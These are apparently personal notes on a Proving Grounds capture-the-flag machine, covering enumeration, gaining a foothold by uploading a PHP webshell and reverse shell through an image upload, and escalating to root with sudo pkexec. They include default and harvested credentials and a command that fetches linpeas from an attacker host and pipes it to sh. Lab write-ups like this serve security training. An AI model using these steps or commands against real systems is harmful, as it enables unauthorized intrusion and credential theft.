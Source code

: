 # FunboxEasy Notes

### Enumeration
- whatweb
	- Apache 
	- Ubuntu OS

- Nmap 
	- quick scan 
		- 80 -> HTTP (Apache httpd 2.4.41)
		- 22 -> SSH (OpenSSH 8.2p1)
	- full-scan (additional found)
		- 33060 -> MySQL??

- uniscan
	- /admin
		- index
		- home
	- /secret
	- potential SQLi's:
		- /store/book.php

- Manual inspection
	- looks like it was made by project world
		- googling project world shows the credentials are admin:admin t the store admin page

### Foothold
- got access to the /store/admin with admin:admin
- the add book functionality allows the upload of a image
	- allowed to upload a webshell -> /usr/share/webshells/php/simple-backdoor.php
- use burp to figure out where the img is being up 
	- browse to location with ?cmd=ls 
	- which nc shows the machine has nc 

- ../../database/readme.txt.txt
	- from ../../../dbconnection.php -> localhost, crm, crm, crm
	- email: nghi.lethanh2@cou.fi

- use the same process to upload a revshell
	- /usr/share/webshells/php/php-rev-shell.php

#### Priv Esc 
- on the machine: 
	- upgrade shell
		-  ```$ which python3 
			/usr/bin/python3
			$ python3 -c "import pty; pty.spawn('/bin/bash');"```
 - run linpeas: 
	 - start python server in dir with linpeas: 
		- ```python -m http.server 80```
	- get linpeas from host machine and pipe to sh: 
		- ```wget http://192.168.49.196/linpeas.sh | sh ```
		- shows interesting user 'tony' on system 
- go to /home/tony 
	- can see the file password.txt
		- all creds in file: 
			- ssh: yxcvbnmYYY
			- gym/admin: asdfghjklXXX
			- /store: admin@admin.com admin

- ssh -> tony@{ip}
	- sudo -l 
		- check gtfobins
			- sudo pkexec /bin/sh 
- proof.txt file: 
	- ![[/proving-grounds/imgs/Pasted image 20220412162128.png]]

